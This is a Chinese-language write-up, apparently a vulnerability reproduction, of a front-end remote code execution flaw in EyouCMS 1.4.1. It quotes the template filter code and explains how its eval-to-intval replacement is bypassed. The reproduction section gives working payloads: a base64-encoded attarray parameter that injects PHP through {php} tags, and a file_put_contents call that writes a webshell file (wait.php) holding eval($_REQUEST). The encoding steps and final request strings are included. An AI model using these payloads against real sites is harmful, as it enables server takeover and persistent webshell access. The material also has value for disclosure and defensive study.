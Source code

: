         // PHP语法检查
        if ($this->config['tpl_deny_php'] && false !== strpos($content, '<?php')) {
            if (config('app_debug')) { // 调试模式下中断模板渲染 by 小虎哥
                throw new Exception('not allow php tag', 11600);
            } else { // 运营模式下继续模板渲染 by 小虎哥
                echo(lang('not allow php tag'));
            }
        }
        return;
    }

4 Line: 将模板中php短标签转换为21 Line: 判断传入的\$content中是否包含了{php}22 Line:
使用正则表达式匹配出\$content中所有包含了"{php}任意内容{/php}"的标签23 Line:
使用三目运算符判断匹配出来的数组中的第0个元素是否有值，如果有值那么将第0个元素的值赋给\$matchs否则将空数组赋给\$matchs24 Line: 判断\$matchs不为空25 Line: 将\$matchs使用foreach循环遍历26 Line: 将\$val中的"{/任意空白字符php}"替换为空并赋给\$valnew27 Line: 将\$valnew中的"多个或零个0-9A-Za-Z\_eval("替换为"intval("28 Line: 将\$valnew中的"开始为eval任意空白字符("替换为"intval("29 Line: 将字符串"{php}{\$valNew}{/php}"赋给\$valnew30 Line: 将\$content中的\$val替换为\$valNew

### 漏洞复现

    Payload:attarray=eyJ7cGhwfXBocGluZm8oKTt7XC9waHB9Ijoie3BocH1waHBpbmZvKCk7e1wvcGhwfSJ9&html={php}phpinfo();{/php}

![](./resource/Eyoucms1.4.1前台rce/media/rId26.png)

Payload生成方式:

    base64_encode(jsonstring)

eval会被替换成intval，所以我们采用base64加密写入webshell的方式php代码如下：

    file_put_contents("./wait.php",base64_decode("PD9waHAgYXNzZXJ0KCRfUkVRVUVTVFsidyJdKTs/Pg=="));

PD9waHAgYXNzZXJ0KCRfUkVRVUVTVFsidyJdKTs/Pg==内容：

    <?php eval($_REQUEST[“w”]);?>

将php标签转换为json格式并加密：

    print base64_encode(json_encode(array("{php}file_put_contents('./wait.php',base64_decode(\"PD9waHAgYXNzZXJ0KCRfUkVRVUVTVFsidyJdKTs/Pg==\"));{/php}"=>"{php}file_put_contents('./wait.php',base64_decode(\"PD9waHAgYXNzZXJ0KCRfUkVRVUVTVFsidyJdKTs/Pg==\"));{/php}")));

    eyJ7cGhwfWZpbGVfcHV0X2NvbnRlbnRzKCcuXC93YWl0LnBocCcsYmFzZTY0X2RlY29kZShcIlBEOXdhSEFnWVhOelpYSjBLQ1JmVWtWUlZVVlRWRnNpZHlKZEtUc1wvUGc9PVwiKSk7e1wvcGhwfSI6IntwaHB9ZmlsZV9wdXRfY29udGVudHMoJy5cL3dhaXQucGhwJyxiYXNlNjRfZGVjb2RlKFwiUEQ5d2FIQWdZWE56WlhKMEtDUmZVa1ZSVlVWVFZGc2lkeUpkS1RzXC9QZz09XCIpKTt7XC9waHB9In0=

pyload:

    attarray=eyJ7cGhwfWZpbGVfcHV0X2NvbnRlbnRzKCcuXC93YWl0LnBocCcsYmFzZTY0X2RlY29kZShcIlBEOXdhSEFnWVhOelpYSjBLQ1JmVWtWUlZVVlRWRnNpZHlKZEtUc1wvUGc9PVwiKSk7e1wvcGhwfSI6IntwaHB9ZmlsZV9wdXRfY29udGVudHMoJy5cL3dhaXQucGhwJyxiYXNlNjRfZGVjb2RlKFwiUEQ5d2FIQWdZWE56WlhKMEtDUmZVa1ZSVlVWVFZGc2lkeUpkS1RzXC9QZz09XCIpKTt7XC9waHB9In0=&htmlcode=bb

![](./resource/Eyoucms1.4.1前台rce/media/rId27.png)
